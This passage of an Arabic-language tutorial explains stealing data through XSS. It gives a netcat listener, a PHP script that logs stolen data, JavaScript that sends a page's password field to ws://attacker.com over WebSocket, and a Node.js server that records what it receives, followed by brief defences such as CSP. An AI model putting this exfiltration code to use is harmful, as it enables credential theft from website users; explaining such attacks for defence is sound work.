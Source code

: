      - **إعداد سيرفر المهاجم**:
       - netcat:
         ```bash
         nc -lvp 80
         ```
       - أو PHP:
         ```php
         <?php
         file_put_contents("stolen_data.txt", $_GET['data'] . "\n", FILE_APPEND);
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - نظف أي مدخلات من المستخدم.
     - استخدم CSP عشان تمنع الطلبات لسيرفرات غريبة.

#### 4. **سرقة البيانات عبر WebSocket**
   - **إزاي بتحصل؟**
     - السكربت بيعمل اتصال WebSocket بسيرفر المهاجم وبيبعت البيانات الحساسة في الوقت الفعلي.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var ws = new WebSocket("ws://attacker.com:8080");
       ws.onopen = function() {
           var password = document.getElementById("password").value;
           ws.send(password);
       };
       ```
       - `WebSocket`: بيعمل اتصال مستمر بين المتصفح والسيرفر.
       - `ws.send`: بيبعت البيانات للسيرفر.
     - **إعداد سيرفر WebSocket**:
       - استخدام **Node.js** مع مكتبة `ws`:
         ```javascript
         const WebSocket = require('ws');
         const fs = require('fs');
         const wss = new WebSocket.Server({ port: 8080 });
         wss.on('connection', ws => {
             ws.on('message', message => {
                 fs.appendFileSync('stolen_data.txt', message + '\n');
             });
         });
         ```
         - شغل السيرفر:
           ```bash
           node websocket_server.js
           ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع اتصالات WebSocket لغير المواقع الموثوقة.
     - راقب حركة الشبكة لو فيها اتصالات غريبة.
